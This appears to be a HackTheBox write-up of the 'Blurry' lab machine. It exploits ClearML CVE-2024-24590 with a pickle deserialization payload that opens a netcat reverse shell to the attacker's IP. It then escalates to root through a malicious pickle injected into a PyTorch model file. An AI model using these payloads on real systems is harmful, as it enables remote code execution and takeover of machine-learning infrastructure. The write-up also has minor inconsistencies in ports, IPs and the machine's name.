

+++ 
draft = false
date = 2024-06-16T13:07:16+01:00
title = "Blurry HTB Walkthrough"
description = ""
slug = ""
authors = ["Dennis Drebitca"]
tags = ["CVE-2024-24590", "Json deserialization", "Script analysis", "Fickling", "ClearML", "Python scripting"]
categories = []
externalLink = ""
series = ["HTB"]
+++


[comment]: <> (Insertar imagen de la carátula de la máquina)


The Blurry HTB machine is a medium difficulty level HackTheBox Machine. The main techniques and tools used to crack this machine are:

    - ClearML
    - CVE-2024-24590
    - Json deserialization
    - Scipt analysis
    - Fickling
    - Python scripting

## Reconnaissance

We start a broad Nmap scan by executing the following command:

```sh
sudo nmap -sS -T5 -vvv -p- 10.10.11.19 -Pn -oG nmap_inicial
```

Where the arguments mean:

    -sS: SYN port scan
    -T5: Using timing template 5 of NMAP
    -vvv: Triple verbose so NMAP prints a lot of information
    -p-: All ports are scanned
    -Pn: Skips Host Discovery
    -oG: Grep Format

The scan returns the following information:


It looks like ports 20, 80 and 8000 are open. Next, we run a more comprehensive scan on the open ports:

```sh
sudo nmap -sCV -p22,80,8000 10.10.11.13 -oN nmap_exhaustivo -v
```

Now the arguments used mean:

    -sCV: Launches all scanning scripts to discover services and versions running on these ports
    -oN: Normal output format
    -v: Single verbose

The results for this second scan are the following:


This is the page visible on port 80:


Whatweb gives us the following report:


## Initial access

Searching the web, we have found some interesting  PoC for [CVE-2024-24590](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/).

But first, we have to install clearml on our machine to be able to interact with the website. We do

```sh
pip install clearml
clearml-init
```

Now, it asks as to input the configuration of the clearML project. We can create a new user on http://app.blurry.htb/login and click on create new credentials. Paste it on the setup script, and we are ready to start tampering with clearML. **It is important to add all subdomains needed to /etc/hosts/**


On the projects page, we can see that there is a periodic script run that checks for the JSON artifacts and parses them. This is the script that is run:


```python
#!/usr/bin/python3

from clearml import Task
from multiprocessing import Process
from clearml.backend_api.session.client import APIClient

def process_json_artifact(data, artifact_name):
    """
    Process a JSON artifact represented as a Python dictionary.
    Print all key-value pairs contained in the dictionary.
    """
    print(f"[+] Artifact '{artifact_name}' Contents:")
    for key, value in data.items():
        print(f" - {key}: {value}")

def process_task(task):
    artifacts = task.artifacts
    
    for artifact_name, artifact_object in artifacts.items():
        data = artifact_object.get()
        
        if isinstance(data, dict):
            process_json_artifact(data, artifact_name)
        else:
            print(f"[!] Artifact '{artifact_name}' content is not a dictionary.")

def main():
    review_task = Task.init(project_name="Black Swan", 
                            task_name="Review JSON Artifacts", 
                            task_type=Task.TaskTypes.data_processing)

    # Retrieve tasks tagged for review
    tasks = Task.get_tasks(project_name='Black Swan', tags=["review"], allow_archived=False)

    if not tasks:
        print("[!] No tasks up for review.")
        return
    
    threads = []
    for task in tasks:
        print(f"[+] Reviewing artifacts from task: {task.name} (ID: {task.id})")
        p = Process(target=process_task, args=(task,))
        p.start()
        threads.append(p)
        task.set_archived(True)

    for thread in threads:
        thread.join(60)
        if thread.is_alive():
            thread.terminate()

    # Mark the ClearML task as completed
    review_task.close()

def cleanup():
    client = APIClient()
    tasks = client.tasks.get_all(
        system_tags=["archived"],
        only_fields=["id"],
        order_by=["-last_update"],
        page_size=100,
        page=0,
    )

    # delete and cleanup tasks
    for task in tasks:
        # noinspection PyBroadException
        try:
            deleted_task = Task.get_task(task_id=task.id)
            deleted_task.delete(
                delete_artifacts_and_models=True,
                skip_models_used_by_other_tasks=True,
                raise_on_error=False
            )
        except Exception as ex:
            continue

if __name__ == "__main__":
    main()
    cleanup()
```

Lets see if we can create a task that uploads a malicious artifact. First, we have to have in mind from this line of code:

```py
# Retrieve tasks tagged for review
    tasks = Task.get_tasks(project_name='Black Swan', tags=["review"], allow_archived=False)
```

The tasks that we create have to have the "review" tag to be picked up by the script. Next, we have to create a python dictionary that can be interpreted by the script. Otherwise, it will throw an error. The check is in the following line:

```py
if isinstance(data, dict):
            process_json_artifact(data, artifact_name)
        else:
            print(f"[!] Artifact '{artifact_name}' content is not a dictionary.")
```

A python dictionary has the following structure:

```py
dictionary = {'key':'value'}
```

We will create a new class named RunCommand, that we'll pass as a value in the dictionary. This new class will attempt to set up a reverse shell using netcat.

```py
import os

from clearml import Task

""" Create the task with the review tag """
task = Task.init(project_name='Black Swan', task_name='Task', tags=["review"])

""" Create the RunCommand class """
class RunCommand:
    def __reduce__(self):
        return (os.system, ("nc 10.10.14.220 1234 -e /bin/bash",))

""" Create the dictionary and pass an instance as a value in the dict """
dictionary = {'key': RunCommand()}


""" Upload the artifact """
task.upload_artifact('MyObject.json', artifact_object=dictionary)
```

Remember to set up the listener before executing the command:

```sh
nc -lvnp 1234
```


After treating the tty, we can get now the user password.


## Privilege escalation

Lets check what user jippity can do as sudo without password by executing sudo -l:


User jippity can run the command '/usr/bin/evaluate_model /models/\*.pth' as root. Lets see if we can analyze the evaluate_model binary.

```sh
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

/usr/bin/mkdir -p "$TEMP_DIR"

file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")

    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
    
fi
```

Luckily, it is a Bash script. Again, our thoughts are to use a malicious pickle file to spawn a root shell. Doing some investigation, we hve found the tool [Fickling](https://github.com/trailofbits/fickling) that can decompile and inject code into pickle files. This tool is also the one used to check the safety of pickle files in the above script. So, lets try to inject some malicious code into a data.pkl file.

First, we have to get an example model.pth file where whe can inject our bad pickle. We can do this with the help from [this article](https://machinelearningmastery.com/save-and-load-your-pytorch-models/)

With our model.pth generated, we can try to inject a /bin/bash command and see if it is flagged as malicious:

```sh
python ~/.local/bin/fickling --inject "/bin/bash" data.pkl 
```



And it isn't flagged as "Otterly Malicious", so SUCCESS. We now can integrate this data.pkl file in our model.pth file using 7z.


Now we can upload it to the victim machine, in the /models/ folder using wget and simple-http-server.


But oops, it errors out. Maybe Fickling isn't the best approach, since it breaks the pickle file. We can create a malicious pkl file ourselves tho, using the following script:

```py
import pickle
import sys

class ArbitraryCode:
    def __reduce__(self):
        import os
        return (os.system, ("/bin/bash",))

# Create an instance of the class
obj = ArbitraryCode()

# Serialize the object to a pickle file
with open('code2.pkl', 'wb') as f:
    pickle.dump(obj, f)

print("Pickle created")
```

And again add it to model.pth with 7z.


```sh
python model.py #Create a new model - not corrupted
7z a model.pth code2.pkl #Add the pickle to the model file
simple-http-server --index #Start the http server to download the file on the victim machine
```

Still errors. After a lot of trying, it looks like 7z is having trouble replacing the data.pkl file, which in turn messes up the script on the victim machine. 

The solution is to use the native kali GUI to open the .pth file and replace the data.pkl file with the Engrampa GUI. 


And just like that, the machine is rooted!


That was a wild ride.

## Conclusion

Hacking through the Runner HTB machine provides valuable insights into penetration testing techniques, including enumeration, vulnerability exploitation, and privilege escalation. By understanding these steps, aspiring ethical hackers like me can enhance their skills and contribute positively to the cybersecurity landscape.
